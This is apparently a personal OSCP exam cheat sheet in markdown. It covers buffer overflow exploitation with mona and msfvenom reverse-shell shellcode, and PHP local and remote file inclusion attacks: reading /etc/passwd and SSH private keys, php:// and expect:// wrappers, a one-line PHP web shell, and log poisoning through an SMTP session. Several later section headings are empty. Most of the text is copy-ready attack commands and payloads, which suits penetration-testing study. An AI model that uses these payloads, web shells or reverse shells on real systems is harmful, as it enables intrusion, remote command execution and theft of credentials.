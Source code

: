 ```yaml
---
title: OSCP CheatSheet
tags: OSCP
key: 20190516
---
```


Just some oscp cheat sheet stuff that I customized for myself. It may look messy, I just use it to copy the command I needed easily.

The content in this [repo](https://github.com/xMilkPowderx/OSCP) is not meant to be a full list of commands that you will need in OSCP. It rather just a list of commands that I found them useful with a few notes on them.

## Buffer Overflow

**1. Check buffer length to trigger overflow**  

**2. Cofirm overflow length, append "A" * length**  

**3. Generate Offset to check EIP, ESP location**
```
/usr/share/metasploit-framework/tools/exploit/pattern_create.rb -l <length>

Record value on EIP, select ESP and click "Follow in Dump"  
/usr/share/metasploit-framework/tools/exploit/pattern_offset.rb -q <value> -l <length>  

Use !mona to find the offset after the overflow  
!mona findmsp  
```
**4. Confirm EIP by adding "B" * 4 after the number of offset. Also, add a number of "C" to track the number of characters that can be added after EIP to confirm length of shellcode**

**5. Check bad characters after EIP. common bad characters are 0x00, 0x0A. Follow dump in ESP to check are there something missing after that.**
```
Add code:

badchar = [0x00]
for ch in range (0x00 , 0xFF+1):
	if ch not in badchar:
		<payload> += chr(ch)
```
**6. Find JMP ESP address in the system.**
```
JMP ESP = FFE4

!mona jmp -r esp -cpb "\x00\x0A" << bad character

!mona modules
!mona find -s "\xff\xe4" -m brainpan.exe

check the value of the address by naviate to it.
Set breakpoint
Change "B" in EIP to the address of JMP ESP << littile edian

e.g. 0x311712f3 >> "\xf3\x12\x17\x31"

Run again to check is the breakpoint triggered
```
**7. Add shellcode**
```
Add a few \x90 before shellcode to avoid shellcode being modify

msfvenom -p windows/shell_reverse_tcp LHOST=<IP>LPORT=<PORT> EXITFUNC=thread -f <Code Format> -a x86 -platform windows -b "\x00"
msfvenom -p linux/x86/shell_reverse_tcp LHOST=<IP>LPORT=<PORT> EXITFUNC=thread -f <Code Format> -b "\x00"
```
**Bonus: Running out of shell code space?**
Use the front of payload instead
1. Is there any register points to the front of our payload? EAX, EDX?
2. Check JMP register address

```
/usr/share/metasploit-framework/tools/exploit/nasm_shell.rb

JMP EAX/EBX/ECX/EDX
```

3. Append the address as shell code.
4. Add payload to the front


## File Inclusion

[Exploiting PHP File Inclusion – Overview](https://websec.wordpress.com/2010/02/22/exploiting-php-file-inclusion-overview/)

Add %00 to test if the file is adding .php to the filename < before php version 5.3
Add ? to act as another parameter

include will execute the file. Others will not

### Local File inclusion
```php
$file = $_GET['page'];
require($file);
```
check with files that generally can be accessed
/etc/passwd
/etc/hostname
/etc/hosts

read php file
```
php://filter/convert.base64-encode/resource=<file name/Path> e.g. index
echo "<output>" |base64 -d
```
.htaccess
config.php in web root folder?

root/user ssh keys? .bash_history?
/.ssh/id_rsa
/.ssh/id_rsa.keystore
/.ssh/id_rsa.pub
/.ssh/authorized_keys
/.ssh/known_hosts

php Wrapper
```
expect://<command>  
```
page=php://input&cmd=ls  
in POST request  
```php
<?php echo shell_exec($GET_['cmd']);?>  
```
Upload Zip shell file and extract with zip
```
zip://path/to/file.zip%23shell  
zip://path/to/file.zip%23shell.php  
```
Check current running user  
/proc/self/status  
check uid and gid  

### Log Poisoning
[HTTPD Default Layout](https://wiki.apache.org/httpd/DistrosDefaultLayout)

**Common log file location**  
**Ubuntu, Debian**  
/var/log/apache2/error.log  
/var/log/apache2/access.log  

**Red Hat, CentOS, Fedora, OEL, RHEL**  
/var/log/httpd/error_log  
/var/log/httpd/access_log  
  
**FreeBSD**  
/var/log/httpd-error.log  
/var/log/httpd-access.log  

**Common Config file location**  
check any restriction or hidden path on accessing the server  

**Ubuntu**  
/etc/apache2/apache2.conf  

/etc/apache2/httpd.conf  
/etc/apache2/apache2.conf  
/etc/httpd/httpd.conf  
/etc/httpd/conf/httpd.conf  

**FreeBSD**  
/usr/local/etc/apache2/httpd.conf  

Hidden site?  
/etc/apache2/sites-enabled/000-default.conf  

proc/self/environ
[shell via LFI - proc/self/environ method](https://www.exploit-db.com/papers/12886/)

### SSH log posioning  
http://www.hackingarticles.in/rce-with-lfi-and-ssh-log-poisoning/  

### Mail log
```
telnet <IP> 25  
EHLO <random character>  

VRFY <user>@localhost  

mail from:attacker@attack.com  
rcpt to: <user>@localhost  
data  

Subject: title  
<?php echo system($_REQUEST['cmd']); ?>  

<end with .>  

LFI /var/mail/<user>  
```
## Remote File Inclusion
These two setting must be enabled to let RLI happens
requires allow_url_fopen=On and allow_url_include=On  
```php
$incfile = $_REQUEST["file"];  
include($incfile.".php");  
```

## File Transfer

## File upload

## Interesting files

## Reverse shell

## SQL injection

## Privilege Escalation
